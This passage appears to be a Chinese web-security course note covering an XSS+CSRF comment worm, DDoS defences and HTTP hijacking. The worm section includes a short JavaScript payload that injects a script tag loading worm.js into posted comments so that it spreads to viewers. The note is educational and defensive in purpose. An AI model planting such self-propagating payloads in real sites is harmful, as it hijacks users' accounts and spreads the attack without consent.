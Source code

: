 ### 2.2.4 xss+csrf（蠕虫）
不断传播的xss+csrf攻击worm.js
```js
const attack = '<script src="http://localhost:3001/worm.js"></script>';
$.post('/api/comments', { content: 'haha' + attack });
```
# 3.DDOS攻击
分布式拒绝服务(Distribute Denial Of Service)
- 黑客控制大量的肉鸡向受害主机发送非正常请求，导致目标主机耗尽资源不能为合法用户提供服务
- 验证码是我们在互联网十分常见的技术之一。不得不说验证码是能够有效地防止多次重复请求的行为。
- 限制请求频率是我们最常见的针对DDOS攻击的防御措施。其原理为设置每个客户端的请求频率的限制
- 增加机器增加服务带宽。只要超过了攻击流量便可以避免服务瘫痪
- 设置自己的业务为分布式服务，防止单点失效
- 使用主流云系统和CDN（云和CDN其自身有DDOS的防范作用）
- 优化资源使用提高 web server的负载能力
# 4.HTTP 劫持
- 在用户的客户端与其要访问的服务器经过网络协议协调后，二者之间建立了一条专用的数据通道，用户端程序在系统中开放指定网络端口用于接收数据报文，服务器端将全部数据按指定网络协议规则进行分解打包，形成连续数据报文。
- 用户端接收到全部报文后，按照协议标准来解包组合获得完整的网络数据。其中传输过程中的每一个数据包都有特定的标签，表示其来源、携带的数据属性以及要到何处，所有的数据包经过网络路径中ISP的路由器传输接力后，最终到达目的地，也就是客户端。
- HTTP劫持是在使用者与其目的网络服务所建立的专用数据通道中，监视特定数据信息，提示当满足设定的条件时，就会在正常的数据流中插入精心设计的网络数据报文，目的是让用户端程序解释“错误”的数据，并以弹出新窗口的形式在使用者界面展示宣传性广告或者直接显示某网站的内容。

# 参考
- [zf-safe](https://gitee.com/zhufengpeixun/zf-safe)